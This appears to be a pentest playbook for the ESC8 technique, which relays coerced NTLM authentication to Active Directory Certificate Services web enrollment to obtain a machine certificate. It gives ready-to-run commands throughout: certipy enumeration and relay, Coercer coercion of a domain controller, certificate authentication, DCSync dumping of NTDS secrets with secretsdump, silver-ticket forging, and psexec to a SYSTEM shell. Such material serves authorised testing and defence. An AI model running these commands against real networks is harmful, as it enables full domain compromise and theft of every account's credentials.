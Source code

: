 # ESC8—NTLM Relay to AD CS HTTP Endpoints

## Theory

> [!Overview] Title
> ESC8 abuses **NTLM relay** to AD CS **HTTP web enrollment endpoints** (e.g., `http://<ADCS_HOST_FQDN>/certsrv/certfnsh.asp`). If HTTP enrollment is enabled and a template that allows **machine enrollment** with **Client Authentication** EKU is published (e.g., `Machine`/`Computer`, or `DomainController`), an attacker who coerces NTLM auth from a domain computer can relay it to the CA and obtain a certificate that **authenticates as that computer/user**. From a computer account cert (esp. a DC), the attacker can perform **DCSync** or forge **silver tickets** to gain high privileges.

## Requirements

* **Web Enrollment** endpoint enabled on AD CS (HTTP/S).
* **Template** published that allows **domain computer enrollment** and **Client Authentication** (e.g., `Machine`/`Computer`; for DCs: `DomainController`).
* Ability to **coerce/capture NTLM** from a target machine (e.g., PrinterBug, PetitPotam, Coercer).
* Network access from attacker to **ADCS HTTP endpoint** and to target for coercion.
 
---

## Linux

### (Optional) SSH SOCKS Proxy

```bash
sshpass -p '<ATTACK_BOX_PASS>' ssh -N -f -D 127.0.0.1:9050 <ATTACK_BOX_USER>@<ATTACK_BOX_IP>
# If sshpass is missing, omit it and enter the password interactively.
```

#### Proxychains4 snippet

```bash
# /etc/proxychains.conf
#proxy_dns
[ProxyList]
socks4  127.0.0.1 9050
```

### Network Enumeration

```bash
nmap -sn <SUBNET_CIDR>
# Identify <DC_IP>, <ADCS_IP>, etc.

nmap <DC_IP>,<ADCS_IP> -sC -sV -oN nmapscan.txt
# Confirm HTTP/HTTPS on <ADCS_IP>, NTLM enabled, IIS version, etc.
```

### Enumerate AD CS with Certipy

```bash
certipy find -u '<USER>' -p '<PASS>' -dc-ip <DC_IP> -vulnerable -stdout
# Look for: Web Enrollment: Enabled; Request Disposition: Issue (ESC8)
# Templates: Machine/Computer or DomainController available for enrollment
```

---

## ESC8 Abuse (Linux)

### Step 1 — Start NTLM Relay to AD CS HTTP Endpoint

> Choose `<RELAY_TEMPLATE>` as `DomainController` when coercing a DC; otherwise `Machine`/`Computer` for workstations/servers.

```bash
sudo certipy relay -target <ADCS_IP> -template <RELAY_TEMPLATE>
# Targets http://<ADCS_IP>/certsrv/certfnsh.asp (ESC8) and listens on 0.0.0.0:445
```

### Step 2 — Coerce Authentication from Target

> Use any coercion vector (Coercer, PetitPotam, PrinterBug, etc.). Example with **Coercer**:

```bash
coercer coerce -l <LISTEN_IP> -t <DC_IP> -u '<USER>' -p '<PASS>' -d <DOMAIN> -v
# When prompted: Continue (C) | Skip (S) | Stop (X) -> choose C until a hit, then X
```

### Step 3 — Receive and Save Relayed Certificate

> In the `certipy relay` console you should see something like `<DOMAIN>\\<DC_HOSTNAME>$` and a PFX written.

```text
[*] Requesting certificate for '<DOMAIN>\\<DC_HOSTNAME>$' based on template '<RELAY_TEMPLATE>'
[*] Certificate has no object SID
[*] Saved certificate and private key to '<PFX_FILE>'
```

### Step 4 — Authenticate with the Issued Certificate

```bash
certipy auth -pfx '<PFX_FILE>'
# => writes Kerberos ccache (e.g., '<CCACHE_FILE>') and may print NT hash for the account
```

---

## Post-Exploitation Paths

### A) DCSync (preferred when cert is for a DC)

Using the **TGT/ccache**:

```bash
KRB5CCNAME=<CCACHE_FILE> secretsdump.py -k -no-pass <DC_FQDN>
# Dumps NTDS.DIT secrets, including <DOMAIN>\\Administrator NT hash
```

Using the **NT hash** directly:

```bash
secretsdump.py '<DC_HOSTNAME>$'@<DC_FQDN> -hashes :<NTHASH>
```

### B) Silver Ticket (when cert/hash is for a non-DC machine)

1. Get **Domain SID**:

```bash
lookupsid.py '<MACHINE_ACCOUNT>$'@<DC_IP> -hashes :<NTHASH>
# Domain SID: <DOMAIN_SID>
```

2. Forge **Silver Ticket** for a service (e.g., CIFS):

```bash
ticketer.py -nthash <NTHASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -spn cifs/<DC_FQDN> Administrator
# Saves Administrator.ccache
```

3. Use **Pass-the-Ticket** (example with PsExec):

```bash
KRB5CCNAME=Administrator.ccache psexec.py -k -no-pass <DC_FQDN>
# Expect a SYSTEM shell on <DC_HOSTNAME>
```

---

## Notes & Troubleshooting

* If `certipy find` can’t enumerate templates via CSRA, try RRP (certipy does this automatically). You only need Web Enrollment **enabled** + a suitable template.
* If `certipy relay` times out, ensure port 445 from target to attacker is reachable and that your coercion actually triggers NTLM to your listener.
* Some hosts harden coercion paths; try multiple vectors or different machines.
* For non-DC machines, use the `Machine`/`Computer` template and pick an SPN relevant to your target when forging silver tickets (e.g., `cifs/<HOST_FQDN>`, `host/<HOST_FQDN>`).
* Ensure DNS/hosts resolution when using Kerberos (`/etc/hosts` or proper DNS).
